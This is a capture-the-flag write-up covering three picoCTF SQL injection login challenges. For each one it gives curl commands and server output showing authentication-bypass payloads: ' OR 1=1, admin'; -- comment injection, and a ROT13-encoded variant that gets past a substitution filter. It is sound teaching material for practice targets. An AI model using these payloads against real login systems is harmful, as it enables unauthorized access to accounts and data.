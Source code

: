 # Irish-Name-Repo (SQL Injection)

All about SQL Injection. The idea is to run SQL statements in a way the attacker wanted (since the developer doesn't know he/she opens a big loophole).

The attacker probably wants to bypass some conditions and/or extract information in database.

## 1

The crappy support page gives a hint of SQL. From the menu we can try to access the login page...

Try to login with some random input - failed for sure.

But when you check the POST request, it gives great hints - `debug=0`. (There is a hidden value in the form, that is really nice)

That is the same as the following `curl` command

```bash
# Seems -X POST not necessary
curl 'https://jupiter.challenges.picoctf.org/problem/50009/login.php' -X POST --data-raw 'username=admin&password=adddd&debug=0'
```

So we then change debug to 1

```bash
curl 'https://jupiter.challenges.picoctf.org/problem/50009/login.php' -X POST --data-raw 'username=admin&password=adddd&debug=1'

<pre>username: admin
password: adddd
SQL query: SELECT * FROM users WHERE name='admin' AND password='adddd'
</pre><h1>Login failed.</h1>
```

Hmm ... let's try our luck to do SQL Injection. We want to make SQL statement like this

`SELECT * FROM users WHERE name='admin' AND password='' OR 1==1;`

So this statement will get pass the checking.

**Our aim is to make the password part becomes True so that the SQL statement returns the admin user without the correct password.**

Next, try to make our password to be `' OR 1=1;`

The tools in Firefox for request sending is nice.

```bash
# No need for double equal for SQL
curl 'https://jupiter.challenges.picoctf.org/problem/50009/login.php' -X POST --data-raw $'username=a&password=add\' OR 1=1;'

<h1>Logged in!</h1><p>Your flag is: picoCTF{that_flag}
```

Good practice problem for SQL injection.

## 2

Input fields are filtered.

`username=aa&password='&debug=1` Shows 500 error
`username=aa&password='OR&debug=1` Shows 200 (Failed login)
`username=aa` Shows 200 (Failed login)

```bash
curl 'https://jupiter.challenges.picoctf.org/problem/53751/login.php' -X POST --data-raw $'username=a&password=add\' OR 1=1;&debug=1'

<pre>username: a
password: add' OR 1=1;
SQL query: SELECT * FROM users WHERE name='a' AND password='add' OR 1=1;'
</pre><h1>SQLi detected.</h1>
```

This time we try to trick the SQL by skipping the password check (the AND part)

The SQL we want:

```sql
SELECT * FROM users WHERE name='admin'; --' AND password='(whatever, it is now a comment now)'
```

So we try username with `admin'; --`

```bash
curl 'https://jupiter.challenges.picoctf.org/problem/53751/login.php' -X POST --data-raw 'username=admin%27%3B --&password=ac&debug=1'

<pre>username: admin'; --
password: ac
SQL query: SELECT * FROM users WHERE name='admin'; --' AND password='ac'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{another_flag}</p>

```

## 3

This time user name field is removed.

```bash
curl 'https://jupiter.challenges.picoctf.org/problem/40742/login.php' -X POST --data-raw 'password=adfas&debug=1'

<pre>password: adfas
SQL query: SELECT * FROM admin where password = 'nqsnf'
</pre><h1>Login failed.</h1>
```

Value changed?...Hmmm

```bash
curl 'https://jupiter.challenges.picoctf.org/problem/40742/login.php' -X POST --data-raw 'password=qwertyuiop&debug=1'
<pre>password: qwertyuiop
SQL query: SELECT * FROM admin where password = 'djreglhvbc'

$ curl 'https://jupiter.challenges.picoctf.org/problem/40742/login.php' -X POST --data-raw 'password=asdfghjkl&debug=1'
<pre>password: asdfghjkl
SQL query: SELECT * FROM admin where password = 'nfqstuwxy'

$ curl 'https://jupiter.challenges.picoctf.org/problem/40742/login.php' -X POST --data-raw 'password=zxcvbnm&debug=1'
<pre>password: zxcvbnm
SQL query: SELECT * FROM admin where password = 'mkpioaz'

# Now we get all the letters ...

Its SQL is like:

```SQL
SELECT * FROM admin where password = '(input_value)'
```

We want to make this:

```SQL
SELECT * FROM admin where password = '' OR 1=1-- '
```

So our password is `' OR 1=1` (a space before OR, OR is substituted to BE)

Luckily this time the SQL Injection check is removed...

```bash
# Spaces doesn't matter
curl 'https://jupiter.challenges.picoctf.org/problem/40742/login.php' -X POST --data-raw $'password=\' BE \'1\'=\'1\'--&debug=1'

<pre>password: 'BE'1=1--
SQL query: SELECT * FROM admin where password = ''OR'1=1--'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{i_think_last_question_is_better}</p>
```
